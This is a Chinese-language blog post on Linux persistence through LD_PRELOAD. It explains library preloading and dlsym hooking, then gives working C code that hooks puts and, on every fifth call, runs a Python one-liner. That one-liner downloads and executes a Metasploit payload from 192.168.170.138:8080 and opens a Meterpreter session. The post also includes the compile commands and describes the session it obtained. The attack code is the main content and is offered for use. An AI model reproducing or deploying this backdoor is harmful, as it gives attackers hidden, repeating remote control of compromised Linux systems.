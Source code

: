 ```yaml
---
title: Linux权限维持之LD_PRELOAD
layout: post
date: '2020-01-01'
categories: C++/C
permalink: "/archivers/2020-01-01/1"
description: 通过LD_PRELOAD环境变量，能够轻易的加载一个动态链接库。通过这个动态库劫持系统API函数，每次调用都会执行植入的代码。
---
```


## LD_PRELOAD 

Linux操作系统的动态链接库在加载过程中，动态链接器会先读取LD_PRELOAD环境变量和默认配置文件`/etc/ld.so.preload`，并将读取到的动态链接库文件进行预加载，即使程序不依赖这些动态链接库，LD\_PRELOAD环境变量和`/etc/ld.so.preload`配置文件中指定的动态链接库依然会被装载,因为它们的优先级比LD_LIBRARY_PATH环境变量所定义的链接库查找路径的文件优先级要高，所以能够提前于用户调用的动态库载入。

通过LD_PRELOAD环境变量，能够轻易的加载一个动态链接库。通过这个动态库劫持系统API函数，每次调用都会执行植入的代码。

## dlsym

**dlsym是一个计算机函数，功能是根据动态链接库操作句柄与符号，返回符号对应的地址，不但可以获取函数地址，也可以获取变量地址。**

dlsym定义在Linux操作系统中的dlfcn.h中，函数原型如下：


> void * dlsym(void * handle,const char * symbol)

* handle：由dlopen打开动态链接库后返回的指针；
* symbol：要求获取的函数或全局变量的名称。

返回值：void * 指向函数的地址，供调用使用。

劫持示例代码：

```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>

int puts(const char *message) {
  int (*new_puts)(const char *message);
  int result;
  new_puts = dlsym(RTLD_NEXT, "puts");
// do some thing …
// 这里是puts调用之前
  result = new_puts(message);
  // 这里是puts调用之后
  return result;
}
```

编译命令：

`gcc hook.c -o hook.so -fPIC -shared -ldl -D_GNU_SOURCE`

* -fPIC 选项作用于编译阶段，告诉编译器产生与位置无关代码（Position-Independent Code）；这样一来，产生的代码中就没有绝对地址了，全部使用相对地址，所以代码可以被加载器加载到内存的任意位置，都可以正确的执行。这正是共享库所要求的，共享库被加载时，在内存的位置不是固定的。
* -shared 生成共享库格式
* -ldl 显示方式加载动态库，可能会调用dlopen、dlsym、dlclose、dlerror
* -D_GNU_SOURCE 以GNU规范标准编译

编写好劫持puts函数的代码后，需要先生成一个Metasploit木马，使得在系统调用puts函数之前，都执行一次木马。

![1.png](/img/20191225173831974025875.png)

`exploit/multi/script/web_delivery` 模块能够直接生成一条Python命令，这能够非常方便的获得Meterpreter。
接下来，将劫持puts函数的代码做一些小改动，在执行puts之前，调用系统函数system来运行python命令，这样每次调用puts都可以获得Meterpreter会话。

![2.png](/img/20191225173836655037349.png)

正常执行的过程：


![3.png](/img/20191225173857718966737.png)

执行whoami后，由于底层会调用puts函数，因此也会执行python命令，Metasploit不出意外的获得了Meterpreter：

![4.png](/img/20191225173900551211965.png)

接着，为了防止在短时间内获得多个重复的会话，因此需要优化一下代码，例如以某个文件行数和调用puts函数的次数进行取余，就能够达到执行多少次puts函数获得一次Meterpreter。
优化代码如下：

```c

#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <sys/stat.h>
#define BUFFER_SIZE 100
#define COMMAND_NUM 5
int check_file_line(char * filename){
	int file_line = 0;
	char buffer[BUFFER_SIZE];
	FILE *fp = NULL;
	fp = fopen(filename,"r");
	if(fp==NULL){
		return file_line;
	}

	while(fgets(buffer,BUFFER_SIZE,fp)!= NULL){
		file_line ++;
	}
	fclose(fp);
	return file_line;
}

void add_file_line(char * filename){
	FILE * fp = NULL;
	fp = fopen(filename,"a+");
	if(fp == NULL){
		return;
	}
	
	fputs("1\n",fp);
	fclose(fp);
}

void call_system(){

  system("python -c \"import sys;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.170.138:8080/o1ZJy3Wue');exec(r.read());\"");

}

int puts(const char *message) {
  char * filename = "/tmp/err.log";
  int (*new_puts)(const char *message);
  int result;
  int file_lines = 0;
  new_puts = dlsym(RTLD_NEXT, "puts");
  add_file_line(filename);
  file_lines = check_file_line(filename);
  printf("[+]file_line : %d, NUM = %d \n",file_lines, COMMAND_NUM);
  if(file_lines % COMMAND_NUM == 0){
  	call_system();
  }
  result = new_puts(message);
  return result;
}
```

![5.png](/img/20191225173903309679538.png)

在执行至第零次、五次时，成功返回了会话：

![6.png](/img/20191225173905833945054.png)


COMMAND_NUM 可自定义